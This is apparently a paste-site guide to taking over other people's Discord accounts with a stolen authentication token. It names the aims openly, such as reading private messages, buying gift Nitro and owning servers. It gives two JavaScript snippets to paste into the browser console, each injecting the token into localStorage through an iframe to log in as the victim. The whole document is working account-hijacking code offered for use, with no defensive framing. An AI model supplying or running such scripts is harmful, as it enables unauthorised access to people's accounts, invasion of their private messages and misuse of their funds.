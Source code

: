 What does this script do?
Bypass Discord Token, you can sign-in their account.


What the Point of this
Read Private message, Buy Gift nitro, own discord servers (if you have ownership to them, cop their files (paid),(important) anything along these lines.)

Important Notice:You should have a valid token first of all, now head to discord you can do this while on you're personal account (but you will get signed out ofc). 
or you can go incognito and do this ( If you don't want to get signed-out of your own account.), you should always be prepared like have the token ready in the script and copied.



                                                     Were going to begin! revv your engine lol..


now just open the console in the discord tab, Hold Ctrl+Shift+i and you are on the console paste the script and press enter If you get the connecting sign then you'r token is working.  (no you cannot change pass, unless you know their pass.))

 


                                                     Script 1(Recommended)

 
________________________________________________________________________________________________________________________________________

function login(token) {
    setInterval(() => {
        document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.token = `"${token}"`;
    }, 50);
    setTimeout(() => {
        location.reload();
    }, 100);
}
login("Token_Here");

________________________________________________________________________________________________________________________________________



 

                                                         Script 2(Old)

 
________________________________________________________________________________________________________________________________________

(function() {
    window.t = "TOKEN_HERE";
    window.localStorage = document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage;
    window.setInterval(() => window.localStorage.token = `"${window.t}"`);
    window.location.reload();
})();
________________________________________________________________________________________________________________________________________



